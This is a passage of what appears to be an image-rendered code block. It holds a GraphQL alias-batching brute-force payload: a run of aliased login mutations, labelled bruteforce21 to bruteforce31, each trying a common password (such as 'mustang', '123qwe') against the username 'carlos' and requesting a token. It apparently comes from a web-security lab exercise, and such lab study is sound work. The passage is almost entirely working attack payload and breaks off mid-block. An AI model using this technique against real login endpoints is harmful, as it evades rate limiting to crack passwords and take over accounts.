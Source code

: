 ```plain
bruteforce21:login(input:{password: "mustang", username: "carlos"}) {
        token
        success
    }


bruteforce22:login(input:{password: "1234567890", username: "carlos"}) {
        token
        success
    }


bruteforce23:login(input:{password: "michael", username: "carlos"}) {
        token
        success
    }


bruteforce24:login(input:{password: "654321", username: "carlos"}) {
        token
        success
    }


bruteforce25:login(input:{password: "superman", username: "carlos"}) {
        token
        success
    }


bruteforce26:login(input:{password: "1qaz2wsx", username: "carlos"}) {
        token
        success
    }


bruteforce27:login(input:{password: "7777777", username: "carlos"}) {
        token
        success
    }


bruteforce28:login(input:{password: "121212", username: "carlos"}) {
        token
        success
    }


bruteforce29:login(input:{password: "000000", username: "carlos"}) {
        token
        success
    }


bruteforce30:login(input:{password: "qazwsx", username: "carlos"}) {
        token
        success
    }


bruteforce31:login(input:{password: "123qwe", username: "carlos"}) {
        token
        success
```